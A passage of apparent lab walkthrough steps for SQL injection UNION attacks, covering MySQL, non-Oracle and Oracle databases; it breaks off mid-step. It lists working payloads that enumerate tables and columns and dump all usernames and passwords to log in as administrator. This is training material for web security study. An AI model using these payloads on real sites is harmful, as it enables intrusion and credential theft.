 1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

`'+UNION+SELECT+'abc','def'#`
3. Use the following payload to display the database version:

`'+UNION+SELECT+@@version,+NULL#`

## SQL injection attack, listing the database contents on non-Oracle databases

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

`'+UNION+SELECT+'abc','def'--`
3. Use the following payload to retrieve the list of tables in the database:

`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`

6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

`'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`

8. Find the password for the administrator user, and use it to log in.

## SQL injection attack, listing the database contents on Oracle

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

`'+UNION+SELECT+'abc','def'+FROM+dual--`
3. Use the following payload to retrieve the list of tables in the database:

`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`

6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
